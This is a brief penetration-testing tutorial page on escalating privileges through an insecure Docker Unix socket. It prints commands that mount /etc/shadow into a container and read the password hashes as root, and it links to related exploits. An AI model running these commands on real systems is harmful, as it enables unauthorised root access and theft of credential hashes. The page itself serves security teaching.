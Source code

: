 # Unix Socket Exploitation

A Unix socket is another component in \*nix systems that you can leverage to escalate your privileges.To safely use a Unix socket, the appropriate security measures/permissions must be implemented beforehand. As you can imagine, this is not always the case.

#### The easiest to follow example on how to leverage an insufficiently secured Unix socket is Docker. By design, the docker daemon binds to a Unix socket instead of a TCP port. By default, that Unix socket is owned by the user root; additionally, the docker daemon always runs as the root user.

Suppose you landed on a machine and the current user is an unprivileged user, that happens to have access to the docker command (he is part of docker group). Also, suppose that the docker Unix socket is not protected by implementing the appropriate permissions.

Let’s see how we could escalate our privileges in that machine. Specifically, let try to access /etc/shadow.

```
docker run -v /etc/shadow:/docker/hashedpasswords -d postgres
docker exec -ti {CONTAINER_ID} bash
root@XXXXXXXXXXXX:/# cat /docker/hashedpasswords > /docker/test.txt
root@XXXXXXXXXXXX:/# chmod 777 /docker/test.txt
root@XXXXXXXXXXXX:/# cat /docker/test.txt
```

![](<../../../.gitbook/assets/image (22) (1).png>)

Two more interesting examples on leveraging Unix sockets for privilege escalation are the following:\
\
[https://www.exploit-db.com/exploits/40962/](https://www.exploit-db.com/exploits/40962/)\
[https://github.com/rapid7/metasploit-framework/pull/9408/files](https://github.com/rapid7/metasploit-framework/pull/9408/files)\\
